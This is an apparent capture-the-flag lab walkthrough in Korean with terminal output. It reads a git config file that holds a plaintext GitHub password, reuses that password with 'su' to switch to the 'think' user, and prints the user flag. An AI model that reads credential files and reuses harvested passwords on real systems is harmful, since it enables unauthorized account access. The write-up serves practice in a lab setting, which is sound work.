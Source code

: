cat /opt/dev/.git/config
cat /opt/dev/.git/config
[core]
repositoryformatversion = 0
filemode = true
bare = false
logallrefupdates = true
[user]
name = Jose Mario
email = josemlwdf@github.com

[credential]
helper = cache --timeout=3600

[credential "https://github.com"]
username = think
password = _TH1NKINGPirate$_

# id = think

# password = _TH1NKINGPirate$_

# 쉘 전환

su - think 의미
su는 **"switch user"**의 약자로, 현재 사용자에서 다른 사용자 계정으로 전환하는 명령어입니다.

think는 전환하려는 사용자 이름(username) 입니다.

- (하이픈)은 옵션으로, 로그인 셸(login shell) 환경으로 전환하겠다는 뜻입니다.

# 로그인 쉘 전환 완료

t open directory '/home/think': Permission denied
$ su - think
su - think
Password: _TH1NKINGPirate$_

think@ip-10-10-249-130:~$ ls
ls
snap user.txt
think@ip-10-10-249-130:~$

think@ip-10-10-249-130:~$ cat user.txt
cat user.txt
996bdb1f619a68361417cabca5454705
think@ip-10-10-249-130:~$

# 상당히 권한이 높아 보임

